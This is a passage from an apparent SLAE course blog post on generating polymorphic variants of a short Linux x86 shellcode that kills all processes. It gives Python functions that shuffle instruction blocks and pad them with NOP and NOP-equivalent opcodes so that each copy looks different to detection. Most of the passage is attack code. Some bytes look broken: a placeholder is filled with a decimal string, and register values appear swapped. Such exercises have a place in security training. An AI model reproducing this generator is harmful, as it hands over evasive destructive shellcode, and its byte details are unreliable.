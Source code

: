 With only three words that they can be swapped each other, there is no too much
space for entropy. Let's split the original shellcode into two main section:

* initialization
* system call setup

With this approach, the two strategies described before will result in:

{%highlight python%}
def kill_shuffle():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop_blk = ["\\x90"]*n
    setup_blk.extend(nop_blk)
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
{%endhighlight%}

### Wasting CPU time

As a PoC for a polymorphic generator script, I wrote a bunch of instruction
that they can be placed everywhere in the shellcode without interfering with
the final result.

{%highlight asm%}
 42                   	inc    %edx
 4a                   	dec    %edx
 50                   	push   %eax
 53                   	push   %ebx
 51                   	push   %ecx
 52                   	push   %edx
{%endhighlight%}

This is the python script filling the shellcode with some NOP equivalent
instruction. Of course, to meet our SLAE assignment rule in size, we can select
only 3 of them, but in a real case scenario it will be fun feeding a buffer
with a very large nonsense opcode list.

{%highlight python%}
def kill_nop_super_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    nop_blk=["\\x90", "\\x6a\\x$$", "\\x42", "\\x4a", "\\x50", "\\x53", "\\x51", "\\x52"]

    shuffle(nop_blk)
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    to_add=nop_blk[0:n]
    setup_blk.extend(to_add)
    par = randint(1,255);


    shuffle(init_blk);
    shuffle(setup_blk);

    tmp="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";
    shellcode=tmp.replace("$$", str(par));
    return shellcode
{%endhighlight%}
